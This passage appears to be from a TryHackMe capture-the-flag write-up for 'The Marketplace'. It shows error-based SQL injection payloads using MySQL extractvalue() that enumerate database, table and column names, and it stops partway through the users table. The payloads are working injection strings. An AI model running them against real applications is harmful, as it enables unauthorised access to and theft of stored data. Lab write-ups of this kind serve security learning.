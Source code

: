 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a35.png)

- MySQL version:8.0.21

**Retrieve database names:**
```sql
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,schema_name) FROM information_schema.schemata LIMIT 0,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,schema_name) FROM information_schema.schemata LIMIT 1,1)))--
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a36.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a37.png)

- Databases: `information_schema`, `marketplace`.

Since `information_schema` is a default database in MySQL, I'll enumerate the `marketplace` database:

**Retrieve database `marketplace`'s table names:**
```sql
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema="marketplace" LIMIT 0,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema="marketplace" LIMIT 1,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema="marketplace" LIMIT 2,1)))--
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a38.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a39.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a40.png)

- Database `marketplace`'s table names: `items`, `messages`, `users`.

**Retrieve database `marketplace`'s column names:**
```sql
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="items" LIMIT 0,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="items" LIMIT 1,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="items" LIMIT 2,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="items" LIMIT 3,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="items" LIMIT 4,1)))--

1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="messages" LIMIT 0,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="messages" LIMIT 1,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="messages" LIMIT 2,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="messages" LIMIT 3,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="messages" LIMIT 4,1)))--

1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="users" LIMIT 0,1)))--
```